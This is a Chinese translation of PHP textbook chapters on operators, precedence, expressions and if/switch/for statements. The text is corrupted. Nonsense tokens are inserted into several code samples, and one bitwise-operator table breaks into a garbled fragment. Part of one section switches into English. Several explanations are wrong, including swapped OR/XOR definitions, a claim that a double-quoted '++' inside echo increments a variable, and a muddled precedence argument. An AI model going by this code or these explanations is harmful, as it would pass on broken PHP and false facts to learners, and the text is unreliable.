表 3.2 列出了运算符及其优先级等级——等级越高，优先级越高。同一等级的运算符优先级相同，从左到右进行计算。否则，先计算较高优先级的等级。使用括号可以精确控制计算顺序；括号内的内容优先计算。

# **表 3.2** 运算符的优先级和结合性

| 等级 | 运算符 | 描述 | 结合性 |
|-------|----------|-------------|---------------|
| 15 | => | 在数组定义中将键与值关联 | 从左到右 |
| 14 | -> | 类运算符 | 从左到右 |
| 13 | ? : | 三元运算符 | 从左到右 |
| 12 | <, <=, >, >= | 小于、小于等于、大于、大于等于 | 无 |
| 11 | ==, !=, <> | 等于、不等于、不等于 | 无 |
| 10 | +, -, !, ~ | 一元正号、一元负号、逻辑非、按位取反 | 从右到左 |
| 09 | ++, -- | 自增、自减 | 从左到右 |
| 08 | <<, >> | 左移、右移 | 从左到右 |
| 07 | /, *, % | 除法、乘法、乘法、取模 | 从左到右 |
| 06 | +, - | 加法、减法 | 从左到右 |
| 05 | &, . | 按位与、字符串连接 | 从左到右 |
| 04 | \|, ^ | 按位或、按位异或 | 从左到右 |
| 03 | \|\|, && | 逻辑或、逻辑与 | 从左到右 |
| 02 | =, +=, -=, *=, /=, .=, %=, &=, \|=, ^=, <<=, >>= | 赋值运算符 | 从左到右 |
| 01 | or | 低优先级逻辑或 | 从左到右 |
|  | and | 低优先级逻辑与 |  |
|  | xor | 低优先级逻辑异或 |  |

在查看单个运算符的示例之前，让我们先看一些运算符优先级的具体示例。希望我们能够证明表 3.2 中显示的一些优先级等级。

第一个例子表明，一元减号运算符的优先级高于自增运算符：

```
$a = 5;
$b = $a++;
 uncomplicated agrandizar;
echo "a = $a<br>";
echo "b = $b<br>";
```

这些行显示

```
a = 6
b = 5
```

变量 $b 在 $a 自增之前获取 $a 的值。现在让我们看看使用一元减号时会发生什么：

```
$a = 5;
$b = -$a++;
echo "a = $a<br>";
echo "b = $b<br>";
```

这些行显示

```
a = 6
b = -5
```

变量 $b 最终值为 -5，只有当 $a 的值先变为负数（换句话说 -6）然后应用自增运算符时才可能。这证明了一元减号的优先级高于自增运算符。

下一个例子清楚地表明，除法的优先级高于加法，因为括号内的运算符总是优先计算：

```
// 前两个操作数加括号。
echo (5 + 9) / 2;
echo "<br>";

// 后两个操作数加括号。
echo 5 + (9 / 2);
echo "<br>";

// 默认优先级。
echo 5 + 9 / 2;
echo "<br>";
```

这些行显示

```
7
9.5
9.5
```

最后一行使用了默认的优先级顺序。由于结果（9.5）与第二行的结果一致，因此可以推断出除法运算符在加法运算符之前计算。

同样重要的是要知道，赋值运算符与其他任何运算符一视同仁——它也有自己的优先级等级。这个概念有点反直觉，但以下示例说明了这个概念。

我们从将 1 简单赋值给变量 $a 开始：

```
$a = 1;
```

右侧的操作数（1）被赋值给左侧的操作数（$a）。现在让我们稍微复杂一点，将赋值的结果赋值给一个变量：

```
$b = $a = 1;
```

上面这行代码将值 1 赋值给 $b，因为计算 $a = 1 的结果是 1。我不推荐使用这种编程风格，因为它往往令人困惑。不过，它偶尔会很方便。现在让我们在前一行代码中添加 `and` 运算符。需要解决的问题是 $b 将被赋值为 0 还是 1。如果等号运算符的优先级更高，那么 $b 将被赋值为 $a = 1 的结果。如果 `and` 运算符的优先级更高，那么 $b 将被赋值为 1 and 0 的结果，即 0：

```
$b = $a = 1 and 0;
```

事实证明，这行代码执行后，$a 和 $b 的值都是 1。因此，等号的优先级更高。

如果你想让 `and` 运算符先计算（通过人为地提高其优先级），可以使用如下括号：

```
$b = (($a = 1) and 0);
```

上面这行代码将 1 赋值给 $a，将 0 赋值给 $b。

本章的其余部分将介绍不同的运算符及其工作方式。=> 运算符在本章前面的"数组变量"部分已经描述过。-> 运算符将在第 10 章"面向对象"中讨论。

## 三元运算符

*三元*运算符根据给定条件在两个选择之间做出选择。例如：如果公园在一英里以内，约翰可以步行；否则，他必须开车。语法是

```
条件部分 ? 真值部分 : 假值部分
```

这是以下语句的简写形式：

```
if (条件部分) {
    真值部分
} else {
    假值部分
}
```

你可以在第 4 章"控制你的程序"中找到更多关于 if 语句的信息。

三元运算符及其操作数被计算后，其值通常被赋值给一个变量：

```
$bln_page_two = ($int_page_number == 2) ? 1 : 0;
```

`$bln_page_two` 的值取决于语句的**条件部分**（`$int_page_number==2`）的计算结果。如果**条件部分**计算结果为 true，则将**真值部分**赋值给 `$bln_page_two`。如果**条件部分**计算结果为 false，则将**假值部分**赋值给 `$bln_page_two`。

三元运算符在一些参考资料中也被称为*条件*运算符，也可以用来控制执行哪些代码段。但是，我不建议这样使用，因为它会使程序更难阅读。

在下面的示例中，你有机会看到语言如何被误用。当你需要考虑多于两个动作时，可以将三元运算符嵌套在彼此内部。然而，正如你从下面的三个示例中看到的，结果是令人困惑的代码：

```
1 ? $int_firstVar++ : $int_secondVar++;

0 ? $int_firstVar++ : $int_secondVar++;

$int_firstVar = $int_temp == 0 ?
                 $int_number_of_files++ :
                 ($int_temp == 1 ?
                  $int_number_of_records++ :
                  ($int_temp == 3 ?
                   $int_number_of_bytes++ :
                   $int_number_of_errors++));
```

以这种方式使用语言会使你的程序难以理解和管理。你可以使用 `if` 语句来获得更好、更易维护的代码。更多信息请参见第 4 章"控制你的程序"。

## 算术运算符

这些运算符反映了你在小学学过的那些。加法、减法、乘法和除法是大多数数学语句的基本要素。取模运算符稍微深奥一些；它找出两个操作数相除的余数。例如，10 % 7 等于 3，因为 10 / 7 等于 1 余 3。

当你的程序需要遍历列表并每隔几个项目执行一块代码时，取模运算符非常宝贵。这个例子，在清单 3.7 中，向你展示如何每隔十个项目执行一次操作。

## 清单 3.7 modulus.php3—每十个项目显示一条消息

```
<?php
    for ($index = 1; $index <= 100; $index++) {
        if ($index % 10 == 0) {
            echo "$index<br>";
        }
    }
?>
```

该程序的输出应该如图 3.6 所示。



## 图 3.6 使用取模运算符显示每隔第十次循环迭代。

注意每隔第十个项目被打印出来。通过更改取模运算符右侧的值，你可以影响在打印消息之前处理多少个项目。将值改为 15 意味着每隔 15 个项目打印一条消息。


第4章“控制你的程序”详细描述了**if**和**for**语句。

## 条件运算符

这些运算符让你能够测试一个变量（或字面量）与另一个变量之间的关系。例如，5 大于 12 吗？计算条件运算符及其操作数的结果总是 true（值为 1）或 false（值为 0）。表 3.3 显示了 PHP 中的条件运算符。

### 表 3.3 PHP 中的条件运算符

| 运算符 | 描述 |
| --- | --- |
| **相等运算符** | |
| `op1 == op2` | 如果 op1 等于 op2，则返回 true。例如，6 == 6 为 true。 |
| `op1 != op2` | 如果 op1 不等于 op2，则返回 true。例如，6 != 7 为 true。 |
| `op1 <> op2` | 如果 op1 不等于 op2，则返回 true。例如，6 <> 7 为 true。 |
| **比较运算符** | |
| `op1 < op2` | 如果 op1 小于 op2，则返回 true。例如，6 < 7 为 true。 |
| `op1 <= op2` | 如果 op1 小于或等于 op2，则返回 true。例如，7 <= 7 为 true。 |
| `op1 > op2` | 如果 op1 大于 op2，则返回 true。例如，6 > 5 为 true。 |
| `op1 >= op2` | 如果 op1 大于或等于 op2，则返回 true。例如，7 >= 7 为 true。 |

> **注意**
>
> 必须认识到相等运算符是一对等号，而不是只有一个。相当多的程序错误是由于人们忘记这条规则，在测试条件时只使用了一个等号而引入的。

## 一元运算符

*一元*运算符作用于单个操作数。它们用于改变操作数的符号，或者对操作数的值进行递增或递减。递增值意味着将其值加一。递减值意味着将其值减一。表 3.4 列出了 PHP 中的一元运算符。

### **表 3.4** *一元算术运算符*

| 运算符 | 描述 |
| --- | --- |
| `+op1` | 将操作数的符号变为正 |
| `-op1` | 将操作数的符号变为负 |
| `!op1` | 对操作数执行逻辑非运算 |
| `~op1` | 将操作数的位取反 |
| `++op1` | 在使用操作数之前将其加一 |
| `--op1` | 在使用操作数之前将其减一 |
| `op1++` | 在使用操作数之后将其加一 |
| `op1--` | 在使用操作数之后将其减一 |

当引入一元运算符时，运算符可能开始变得复杂，因为加上负数可能会很别扭。很少有人会像这样写数学表达式：`345 + -23`。然而，在 PHP 中，你可以使用 `354 + $int_gas_bill`，其中 `$int_gas_bill` 代表一笔 23.00 美元的借项；换句话说，一个负数。

使用一元正号运算符没有任何作用，PHP 会忽略它。然而，一元负号运算符会改变值的含义，从正数变为负数或反之。例如，如果你有一个名为 `$int_first` 的变量等于 34。那么在打印时，`-$int_first` 将显示 -34。

逻辑非运算符（`!`）用于将逻辑 true 值转换为逻辑 false 值。例如，`!34` 是零，而 `!0` 是 true。

> **注意**
>
> True 的值为 1。而 false 的值为 0。

位取反运算符将其操作数中的每一位从 1 翻转为 0 或反之。在二十年的编程生涯中，我从未需要使用这个运算符。因此，我将避免浪费你的时间举例子。

如果 ++ 或 -- 运算符出现在操作数前面，则操作数在使用其值之前先递增或递减。如果 ++ 或 -- 运算符出现在操作数后面，则先使用操作数的值，然后根据需要对操作数进行递增或递减。清单 3.8 展示了前置递增运算符的使用。

### **清单 3.8** *preincrement.php3——使用前置递增运算符*

```
<?php
  // 原始方式
  $int_number_of_pages = 5;
  $int_number_of_pages = $int_number_of_pages + 1;
  echo "$int_number_of_pages<br>";

  // 新方式
  $int_number_of_pages =天柱 场;
  echo "++$int_number_of_pages<br>";
?>
```

该程序产生以下输出：

6

6

新的编码方式比原始方式更短。语句 `echo "++$int_number_of_pages<br>";` 首先递增 `$int_number_of_pages` 变量，然后允许 **echo** 命令使用它。

前置递减运算符的使用方式与前置递增运算符相同。下一个示例，清单 3.9，展示了如何使用后置递增运算符。

### **清单 3.9** *postincrement.php3——使用后置递增运算符*

```
<?php
  // 原始方式
  $int_number_of_pages = 5;
  $int_current_page_number = $int_number_of_pages;
  $int_number_of_pages = $int_number_of_pages + 1;
  echo "$int_number_of_pages $int_current_page_number<br>";

  // 新方式
  $int_number_of_pages = 5;
  $int_current_page_number = $int_number_of_pages++;
  echo "$int_number_of_pages $int_current_page_number<br>";
?>
```

该程序产生以下输出：

6 5

6 5

语句 `$int_current_page_number = $int_number_of_pages++;` 首先将 `$int_number_of_pages` 的值赋给 `$int_current_page_number`，然后递增 `$int_number_of_pages` 变量。了解后置递增和后置递减运算符不会影响赋值运算符左侧变量的值可能会有所帮助。如果你看到后置递增或后置递减运算符，请忽略它们来计算语句。然后，在完成之后，根据需要应用后置递增和后置递减运算符。

## 位运算符

位移位运算符，列于表 3.5 中，用于将操作数中的所有位向左或向右移动指定次数。当你需要除以或乘以整数值时，它们非常方便。例如，值 3 在二进制表示法中也是 11，或 ((1 * 2) + 1)。二进制表示法中的每个字符代表一个位，这是计算机内存中可以修改的最小单元。

以下示例使用 >> 运算符除以 4：

```
$int_a = 128;
$int_b = $int_a >> 2;
echo "$int_b<br>";
```

该程序产生以下输出：

32

现在让我们看看移位操作之前和之后变量的位模式。首先，`$int_a` 被赋值为 128（十进制）或 1000000（二进制）。`$int_a` 中的值然后向左移动两位。所以新值是 00100000 或 32，被赋值给 `$int_b`。

## 表 3.5 继承方法运算符

| 运算符 | 描述 |
|----------|-------------|
| `op1 << op2` | 左移位运算符将位向左移动，丢弃最左边的位，并将最右边的位赋值为 0。每次向左移动实际上将 op1 乘以 2。 |
| `op1 >> op2` | 右移位运算符将位向右移动，丢弃最右边的位，并将最左边的位赋值为 0。每次.print stkof调用实际上是 php？ | 中文简称 | 右移位运算符 |
|---------|-------------|
| `op1 op2` | 右移位运算符将位向右移动，丢弃最右边的位，并将最左边的位赋值为 0。每次向右移动实际上将 op1 除以一半。 |
| `op1 & op2` | 与运算符比较两个位，如果两个位都是 1 则生成结果 1；否则返回 0。 |
| `op1 \| op2` | 或运算符比较两个位，如果位互补则生成结果 1；否则返回 0。 |
| `op1 ^ op2` | 异或运算符比较两个位，如果任一或两个位都是 1 则生成结果 1；否则返回 0。 |

当位向右移动时，值的最右边位会丢失。你可以在以下示例中看到这一点，该示例使用 >> 运算符除以 认认真真真讲究策略'$int_a = 129;
$int_b = $int_a >> 3;
echo "$int_b<br>";
```

The program produces the following output:

16

Because the bit value of 16 is 00010000, you can tell the right-most bit has disappeared. Here's a quick example using the << operator. We'll multiply 128 by 8:

```
$int_a = 128;
$int_b = $int_a << 3;
echo "$int_b<br>";
```

该程序产生以下输出：

1024

As you can see, the value of 1024 is beyond the bounds of the eight bits that the other examples use. This shows that the number of bits available for your use is not limited to one byte. Actually, you are only limited by however many bytes PHP uses for one scalar variable, which in most cases is probably four.

## 字符串连接运算符

字符串连接运算符将两个字符串连接在一起。如果两个操作数之一是数值，它会自动转换为字符串。以下示例展示了自动转换：

```
$str_a = "This box can hold " . 55 . " items.";
echo "$str_a<br>";
```

此代码显示以下输出：

This box can hold 55 items.

数字 55 会自动转换为字符串，然后与其他字符串组合。注意字符串字面量包含空格，以便在创建最终字符串时，数字被空格包围，这使得句子可读。

你也可以将变量作为操作数与连接运算符一起使用，如下所示：

```
$str_a = 'AAA';
$str_b = 'BBB';
$str_c = $str_a . $str_b;
echo "$str_c<br>";
```

此代码显示以下输出：

AAABBB

注意，字符串被连接起来时没有添加任何空格或其他分隔字符。如果你想在连接后的字符串之间有空格，你必须确保其中一个原始字符串包含空格字符，无论是在第一个字符串的末尾还是在第二个字符串的开头。

## 逻辑运算符

这些运算符实现布尔逻辑，即真/假逻辑。在句子"如果约翰发烧了 AND 约翰鼻塞 OR 一个

耳朵痛**并且**约翰的年龄**不超过**60岁，那么约翰得了感冒"，其中的"并且"、"或"和"不"充当逻辑运算符。

逻辑运算符通常出现在程序控制语句中，例如`if`或`while`语句。控制语句将在下一章"控制你的程序"中介绍，但我们可以在这里探讨逻辑运算符。表3.6列出了PHP中的逻辑运算符。

## 表3.6 逻辑运算符

| 运算符 | 说明 |
| --- | --- |
| op1 && op2 | 对两个操作数执行逻辑与运算 |
| op1 \|\| op2 | 对两个操作数执行逻辑或运算 |
| op1 and op2 | 对两个操作数执行逻辑与运算 |
| op1 or op2 | 对两个操作数执行逻辑或运算 |
| op1 xor op2 | 对两个操作数执行逻辑异或运算 |

逻辑运算符让程序能够基于多个条件做出决策。每个运算符及其操作数作为一个整体进行求值，结果为真或假。以下示例展示了逻辑条件可以使用的不同方式。

`&&`运算符用于确定两个操作数是否都为真。表3.7展示了在四组真/假值上使用`&&`运算符的结果。

## 表3.7 &&结果表

| Op1 | Op2 | Op1 && Op2 |
| --- | --- | --- |
| 0 | 0 | 0 |
| 1 | 0 | 0 |
| 0 | 1 | 0 |
| 1 | 1 | 1 |

以下代码展示了&&运算符的使用：

```
if ($int_a == 10 && $int_b == 9) {
    echo "Error!";
};
```

如果两个操作数中有任何一个为假，echo命令将被跳过。顺便说一下，这个例子表明==运算符的优先级高于&&运算符。每个==运算符先被求值，然后将结果值作为&&运算符的操作数使用。

`||`运算符确定其任一操作数是否为真。表3.8展示了在四组真/假值上使用`||`运算符的结果。

## 表3.8 ||结果表

| Op1 | Op2 | Op1 \|\| Op2 |
|-----|-----|-------------|
| 0   | 0   | 0           |
| 1   | 0   | 1           |
| 0   | 1   | 1           |
| 1   | 1   | 1           |

以下代码展示了||运算符的使用：

```
if ($int_a == 10 || $int_a == 11) {
    echo "Error!";
};
```

如果任一==运算的结果为真，则执行echo命令。

逻辑与和逻辑或运算符都具有短路特性。逻辑与运算符的目标是确定其两个操作数是否都为真。如果PHP确定第一个操作数为假，则不需要对第二个操作数进行求值。逻辑或运算符的目标是确定其任一操作数是否为真。如果第一个操作数为真，则不需要对第二个操作数进行求值。

如果不小心，这种短路特性可能会成为错误的来源。例如，在以下代码片段中，如果`$int_a++`的求值结果为真，则`$int_b`变量不会被递增。

```
if ($int_a++ || $int_b++) {
    echo "true<br>";
    echo "a=$int_a b=$int_b<br>";
}
```

### 注意

你可能想尝试以下方法来确定`$int_a`是否等于9或10。*不要这样做*。

```
if ($int_a == (9 || 10)) {
    echo "Error!<br>";
};
```

PHP不是这样工作的。测试`$int_a`的正确方法是明确说明要使整个条件返回真需要满足的每个子条件。正确的方法是：

```
if ($int_a == 9 || $int_a == 10) {
    echo "Error!<br>";
};
```

*and*、*or*和*xor*低优先级逻辑运算符执行与其高优先级对应运算符相同的操作。然而，它们的低优先级特性使它们在需要条件执行某些代码但不需要`if`语句开销时非常理想。不幸的是，大多数使用低优先级逻辑运算符的情况涉及函数，这是一个尚未涵盖的主题。在不过多介绍函数细节的情况下，让我们来看一个*or*运算符的示例。

每个PHP函数都会返回一个值，该值可以作为操作数使用。因此，可以利用运算符的短路特性来控制程序流程。如果*or*运算符的第一个操作数求值为真，则不会对第二个操作数进行求值。然而，反过来也成立；如果第一个操作数为假，则会对第二个操作数进行求值。大多数函数在发生错误时返回假。因此，*or*运算符可用于仅在发生错误时执行代码。例如：

```
0 or die('Problem connecting to printer.<br>');
echo 'Program Over.<br>';
```

这几行代码显示

```
Problem connecting to printer.
```

将左操作数改为1则显示

```
Program Over.
```

## 赋值运算符

本章前面的一些示例使用了基本赋值运算符。除了基本赋值运算符外，PHP还有将基本赋值运算符与另一个运算符组合的快捷赋值运算符。例如，你可以说`$int_a /= $int_b`，而不是`$int_a = $int_a / $int_b;`。使用快捷运算符的优势——除了输入更少之外——是你的赋值意图变得更加明确。

表3.9列出了PHP中的所有赋值运算符。在阅读了本章关于各种运算符类型的其他部分之后，你应该熟悉表中描述的所有运算。

## 表3.9 赋值运算符

| 运算符 | 说明 |
|----------|-------------|
| var = op1; | 将op1的值赋给var |
| var += op1; | 将var + op1的值赋给var |
| var -= op1; | 将var - op1的值赋给var |
| var *= op1; | 将var * op1的值赋给var |
| var /= op1; | 将var / op1的值赋给var |
| var %= op1; | 将var % op1的值赋给var |
| var .= op1; | 将var . op1的值赋给var |
| var &= op1; | 将var & op1的值赋给var |
| var \|= op1; | 将var \| op1的值赋给var |
| var ^= op1; | 将var ^ op1的值赋给var |
| var <<= op1; | 将var << op1的值赋给var |
| var >>= op1; | 将var >> op1的值赋给var |

你会发现赋值运算符有一个方面并不直观。你可以将赋值运算作为其他运算符的操作数使用。例如，以下代码行将3同时赋给`$int_a`和`$int_b`：

```
$int_b = $int_a = 3;
```

## 小结

本章向你介绍了字面量、变量、常量和运算符的概念。字面量是直接放入源代码中的值，程序永远不会更改它们。变量是计算机内存中用于在程序运行时保存值的地方。它们被称为变量，因为你可以根据需要给它们赋予不同的值。常量本质上是命名的字面量（如pi），它们有助于文档编写和使代码更易于管理。而运算符则告诉计算机要做什么。

字面量有时被称为硬编码值。你了解了数字字面量以及可用于表示它们的三种不同进制——十进制、八进制和十六进制。非常大或非常小的数字也可以使用科学记数法来表示。

字符串则稍微复杂一些。单引号、双引号和反引号字符串用于保存一系列字符。反引号字符串还有一个额外的用途。它们告诉PHP将字符串发送给操作系统执行。

转义序列用于表示难以通过键盘输入字符，或者具有多种用途的字符。例如，在双引号字符串中使用双引号会在你真正意图之前结束字符串。反斜杠字符被引入来转义双引号并改变其含义。

你了解了两种类型的变量：标量和数组。标量变量保存单个数字或文本字符串。而数组变量保存一系列标量值。数组中的每个条目都有一个关联的键。因此，数组是一种保存键值对数据的方式。当需要

数组包含另一个数组。当一个键值对的值部分是数组时，它们就被创建了。

变量插值可以用来在字符串中将变量替换为其值。但是，插值不能在超过一层的数组上使用。

动态变量名提供了"即时"创建变量名的能力。我看不出这种能力有多大必要，因为 PHP 的数组允许你创建复杂的数据结构。

当同一个字面量在多个地方需要时，可以创建一个常量值。使用常量为你的程序增加了文档元素。此外，如果常量定义位于程序的开头，它们会使修改程序更加容易。

你了解到运算符告诉 PHP 要执行哪些操作。某些运算符优先于其他运算符，因此它们及其操作数会先被求值。操作数可以简单如数字 10，也可以非常复杂，涉及变量、字面量和其他运算符。这意味着它们在本质上是递归的。

PHP 有许多不同类型的运算符，其中大多数在本章中都有讨论。从三元运算符和算术运算符开始，然后是条件运算符和一元运算符。你还接触到了自增和自减运算符。接下来是位移运算和逻辑运算符。有时，位移运算符在需要快速的整数乘法和除法时会用到。

连接运算符用于将两个字符串连接在一起，赋值运算符为变量赋予一个值。大多数赋值运算符都是为了减少打字量和明确赋值含义而设计的快捷方式。

下一章"控制你的程序"将探讨语句的定义以及如何使用函数来模块化程序。

## 控制你的程序

本章深入探究程序是如何通过函数、表达式和语句来控制的。

前一章向你展示了如何在非常低的层面上操作数据。如果我们将操作数和运算符视为构建组件，你会看到它们被组合起来形成表达式。表达式进而被用来形成语句。语句被用来形成函数。而函数被用来形成程序。

### 提示

> 当你学习一门程序语言的基本元素时，要看到全局——看到这些元素如何组合形成一个完整的程序——可能很困难。别担心，开心点。接下来的章节会展示完整的程序，并解释它们是如何一步一步构建起来的。

## 表达式

表达式是由一个或多个运算符连接的操作数序列，其求值结果为单个值——标量或数组。

当操作数和运算符组合时，它们形成**表达式**。你在本书的示例中已经见过许多表达式。不过，直到现在我们才重点关注它们。

最基本的表达式是数字字面量：

```
12
```

从这个简单的起点，你可以逐步得到更复杂的：

```
-12
-12 + 14
-12 + 14 * (24 / 12)
(-12 + 14 * (24 / 12)) && calculate_total_cost()
```

请注意，每个表达式，无论复杂程度如何，实际上都是较小表达式和一个或多个运算符的组合。当计算机程序员用某物自身来定义该物时，这被称为*递归*。每次进行递归时，表达式都会被分解成越来越简单的片段，直到计算机能够正确求值这些片段为止。

## 简单表达式

*简单*表达式由单个赋值或单个函数调用组成。关于这些表达式没有什么可多说的，因为它们非常简单。以下是一些示例：

- `initialize_pricing_rules()`——调用一个函数
- `$str_first_name = 'John'`——初始化一个标量变量
- `$arr_first_names = array( 'John', 'Marie' )`——初始化一个数组变量

## 带有副作用的简单表达式

表达式除了完成其明显的任务外，还可能产生*副作用*。副作用发生在一个或多个变量的值被改变，且这种改变不是赋值运算符的结果时。例如，被调用的函数可以设置一个*页面作用域*变量（页面作用域变量是在函数内部使用 **global** 关键字指定的），或者自增运算符可以改变变量的值。副作用往往会使程序更难理解，所以你在编程中的目标之一应该是尽可能减少副作用。

看看这些带有副作用的表达式示例：

- `$int_total_glasses = ++$int_number_of_glasses`——`$int_number_of_glasses` 变量被递增，同时一个值被赋给 `$int_total_glasses`。
- `function one() { global $str_directory_name; $str_directory_name = '/dos_data'; }`——当使用 `one()` 函数时，一个页面作用域变量被改变。

## 复杂表达式

*复杂表达式*可以在任何序列中使用任意数量的字面量、变量、运算符和函数。

以下是一些示例：

- `((10 + 2) / count_fishes() * 114)`——一个包含三个运算符和一个函数调用的复杂表达式。
- `initialize_count( 20 - ($int_page_number - 1) * 2 )`——一个简单的函数调用，其参数是一个复杂表达式。

有时很难判断你是否有足够的右括号来匹配所有的左括号。从左开始，数每个左括号，当你找到一个右括号时，从总数中减去一。如果在表达式结束时你得到零，说明括号是平衡的。

## 语句

所有 PHP 程序都由*语句*构成。无论语句是简单的还是复杂的，它们都是一个接一个地按顺序执行——直到程序结束、遇到跳转语句或分支语句为止。

最基本的语句是

```
;
```

这个语句做不了什么，但它是有效的。分号字符标记语句的结束。语句可以如你需要的那样复杂。例如：

```
$str_house_size = (
    $int_number_of_rooms > 9 ?
    "large" :
    "small"
);
```

这行代码如果房子的房间数超过九个，则将 "large" 赋给 `$str_house_size`；否则，赋值为 "small"。

PHP 语句，就像人类语言中的句子一样，可以分解成组成部分。在 PHP 中，这些组成部分是*字面量*、*变量*、*函数*和*关键字*。关键字是 PHP 保留使用的词。这些词（`__FILE__`、`__LINE__`、**if**、**else**、**elseif**、**while**、**do**、**for**、**break**、**continue**、**switch**、**case**、**default**、**require**、**include**、**function**）是语言不可或缺的组成部分，为你提供了控制程序流程的能力。

`__FILE__` 和 `__LINE__` 关键字在本书中不讨论；请参阅 PHP 文档。**require** 和 **include** 关键字用于读取和执行 PHP 脚本，在 PHP 手册中也有详尽的文档。其余关键字将在以下章节中讨论。

## 语句类型

PHP 有 6 种语句类型，如表 4.1 所示。

### 表 4.1 PHP 语句类型

| 语句类型 | 描述 |
| --- | --- |
| 无操作 | 求值但不执行任何操作。 |
| 操作 | 执行某些操作。 |
| 赋值 | 为变量赋值。 |
| 决策 | 让你测试条件并在多个操作中选择一个。 |
| 循环 | 让你重复执行一系列语句，直到某个条件为真或为假。 |
| 跳转 | 让你无条件地将程序流程改变到代码中的另一点。 |

### 无操作语句

*无操作*语句由 PHP 求值，但不执行任何操作。例如，语句 `10 + 20;` 的值为 30，但由于没有变量被改变，没有实际工作被完成。20 的值没有被存储在任何地方，当下一个语句出现时它就被迅速遗忘了。

如果无操作语句不做任何工作，它有什么用呢？我不知道；如果你找到了好的用途，请告诉我。

### 操作语句

*操作*语句使用表达式来执行某些任务。它们可以递增或递减变量。或者它们可以调用函数。它们可能是使用最频繁的语句类型。

### 赋值语句

*赋值*语句并不复杂。它们为变量赋值。你在前一章"在 PHP 中操作数据"中已经了解了赋值运算符，所以我在这里不会浪费宝贵的空间重复相同的信息。

### 决策语句

*决策*语句使用 **if** 和 **switch** 关键字，要么基于表达式的求值执行一个语句块，要么基于表达式的求值选择执行两个语句块中的一个。例如，如果正在处理的支票超过 $1,000，则执行一个代码段；如果低于 $1,000，则执行另一段代码。

 ## if 关键字

if 语句用于计算一个表达式，产生 true 或 false 值。表达式的值决定了 PHP 执行哪一块语句。

你会发现 if 语句有三种不同形式：

1.
```
if ( EXPRESSION ) {
    // 当表达式为 true 时
    // 执行的代码块
}
```

2.
```
if ( EXPRESSION ) {
    // 当表达式为 true 时
    // 执行的代码块
}
else {
    // 当表达式为 false 时
    // 执行的代码块
}
```

3.
```
if ( EXPRESSION_1 ) {
    // 当 expression_1 为 true 时
    // 执行的代码块
}
elseif ( EXPRESSION_2 ) {
    // 当 expression_2 为 true 时
    // 执行的代码块
}
else {
    // 当所有表达式都为 false 时
    // 执行的代码块
}
```

表达式可以包含第 3 章"在 PHP 中操作数据"中讨论的任何运算符。甚至可以使用赋值运算符，因为赋值操作的值就是所赋的值。最后一个例子有点令人困惑，所以让我们再看一个例子：

```
$int_a = 10;
if ($int_a -= 5)
    echo "a = $int_a<br>";
```

这行代码显示

```
a = 5
```

if 语句通过从 $int_a 中减去 5 并将结果赋值给 $int_a 来计算 $int_a -= 5。如果结果为 true（即，不是负零），则执行 echo 语句。

这个例子——除了演示在 if 语句中使用赋值运算符——还表明当只需要执行一条语句时，语句块周围的花括号是可选的。

> 尽管单条语句的花括号是可选的，但始终要使用它们。它们使将来添加语句更容易，并消除你忘记添加它们的可能性（这会导致微妙的逻辑错误）。

### 提示

以下代码行展示了 **else** 关键字的用法：

```
$int_a = 5;
if ($int_a -= 5) {
  echo "a = $int_a<br>";
}
else {
  echo "a is zero.<br>";
}
```

这行代码显示

```
a is zero.
```

**elseif** 关键字的用法如下：

```
$str_name = 'John';
if ($str_name == 'Joe') {
  echo "Your appointment is on Monday.<br>";
}
elseif ($str_name == 'John') {
  echo "Your appointment is on Wednesday.<br>";
}
else {
  echo "Your appointment is on Friday.<br>";
}
```

这些代码行显示：

```
Your appointment is on Wednesday.
```

当 `$str_name` 不是 `'Joe'` 或 `'John'` 时，执行属于 `else` 从句的语句。否则，执行另外两个从句中的一个。**else** 关键字还可用于通过将错误消息放在 `else` 语句块中来捕获未知或意外的值，该错误消息显示未知值。例如：

```
if ($str_input == 'A') {
  // 执行 A 语句。
}
elseif ($str_input == 'B') {
  // 执行 B 语句。
}
else {
  echo "Unrecognized Input Error: '$str_input' is unknown.<br>";
}
```

到目前为止，我们看到的所有例子都在 `if` 语句的所有从句中使用了相同的变量。但是，你可以更有创意，如下面的虚构房屋及其智能计算机的例子所示：

```
if ($int_left_window_open == 1) {
    $int_outside_temperature = check_outside_temperature();
    if ($int_outside_temperature < 70) {
        close_window('left');
    }
}
elseif ($int_right_window_open == 1) {
    $bln_mail_exists = look_outside_check_mailbox();
    if ($bln_mail_exists) {
        make_announcement('The mail is here.');
    }
}
else {
    $str_window_side = select_side_of_house();
    open_window($str_window_side);
}
```

## switch 关键字

当你需要测试很多值时，if 语句可能会变得有些复杂——要处理那么多 `elseif` 从句。许多人发现 *switch* 语句的语法更容易快速理解。

### switch 语句的语法是

```
switch ( VARIABLE ) {
  case VALUE1:
    break;
  case VALUE2:
    break;
  case VALUEn:
    break;
  default:
    break;
}
```

每个需要检查的值在 switch 语句中都有自己的 case 从句。要检查的变量可以是任何标量值（即，可以检查数字和字符串值）。

如果 case 从句没有 **break** 关键字，则 PHP 会执行下一个 case 从句的语句。如果该 case 也没有 **break** 关键字，则执行下面的 case 从句。如此继续，直到找到 **break** 关键字。

以下是 switch 语句如何用于处理命令行计算器程序命令的一个简短而完整的示例。每次用户输入命令时，都会调用下面的 switch 语句来确定要执行哪些任务。当然，由于 PHP 通常用于创建基于 Web 浏览器的程序，你可能永远不会以这种方式使用 PHP：

```
switch ($str_input) {
    // print 和 echo 情况执行相同的任务，因此
    // print 情况不需要 break 关键字。
    case 'print':
    case 'echo':
      // 执行 echo 任务。
      break;
    case 'check_balance':
      // 执行检查余额任务。
      break;
    case 1:
    case 2:
      // 将 $str_input 添加到某物。
      break;
    default:
      echo "You have entered an unrecognized command or are ";
      echo "trying to add a number other than 1 or 2.";
      break;
}
```

switch 的一个限制是只能检查一个变量。另一方面，这一限制也是 switch 比 if 语句更容易理解的部分原因。

## 循环语句

循环语句反复执行一个语句块，直到指定表达式计算为 true 或 false，具体取决于你的编程需求。

PHP 有三个用于控制程序循环的关键字。它们是 for、while 和 do 关键字，每个关键字处理略有不同的循环类型；但对于每个关键字，都使用表达式来确定循环何时停止。for 循环是最复杂的，所以让我们先看它。

## for 关键字

for 语句的语法由三个表达式和一个语句块组成。它看起来像这样：

```
for (INITIALIZATION; CONDITION; OPERATION) {
    // 语句块
}
```

初始化表达式首先执行——在循环开始之前。它可以用于初始化任何变量，但大多数程序员只初始化那些在循环语句块中实际使用的变量。初始化也可以在 for 语句之前立即执行，但在 for 语句内部使用初始化表达式有助于创建自说明的程序。

### 提示

